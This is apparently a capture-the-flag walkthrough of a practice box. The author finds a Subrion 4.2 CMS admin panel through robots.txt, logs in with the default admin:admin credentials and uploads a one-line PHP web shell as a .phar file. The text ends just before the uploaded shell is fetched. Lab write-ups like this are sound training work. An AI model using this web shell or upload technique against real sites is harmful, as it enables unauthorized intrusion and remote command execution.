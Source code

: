 The only interesting directory here is the  ```/robots.txt``` directory. Lets navigate to that directory

![image](https://user-images.githubusercontent.com/67879936/222858387-3a82cf57-a1e8-444c-a23d-fad15dfd1568.png)

There are seven directories here. The directory we'll focus on will be the ```/panel``` directory. Lets navigate to that directory also

![image](https://user-images.githubusercontent.com/67879936/222858565-22bb81f1-0b98-4546-989b-3e67cfc1c1ac.png)

cool, we found a login page. Also take note of ```Subrion 4.2```, what is subrion? Subrion is a Content Management System (CMS) which allows you to build websites for any purpose.

With this I found default creds for subrion cms

```username:admin```       ```password:admin```

Lets login with these creds

![image](https://user-images.githubusercontent.com/67879936/222859460-8ec7be75-ecfc-47f4-bb6f-9eb7f545e039.png)

Now that we are logged in lets take a look arounf the webpage

![image](https://user-images.githubusercontent.com/67879936/222859651-3cef7549-13bf-498b-a048-fe37d6b001bd.png)

We'll be taking use of this upload page to exploit this webpage.



<h2>Exploitation</h2>

We'll create our malicious php file with extension ```.phar```

payload:```<?php system($_GET['cmd']); ?>```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ ls
shell.phar
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ file shell.phar
shell.phar: PHP script, ASCII text
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/Exfiltrated]
└─$ cat shell.phar 
<?php system($_GET['cmd']); ?>

```
Now, lets go ahead and upload this

![image](https://user-images.githubusercontent.com/67879936/222860687-2ef2f9c8-fea9-4fcd-9fe3-ea16f7740218.png)

To get the path where this shell is uploaded, right click on the uploaded shell and select "Get Info"

![image](https://user-images.githubusercontent.com/67879936/222860779-c1fcf3d8-7404-4cef-a00f-f616eac86f93.png)

![image](https://user-images.githubusercontent.com/67879936/222860814-2cf22565-e0cc-45bf-b9ef-957080cada05.png)

Now that we got where the uploaded shell is, lets go fetch it

```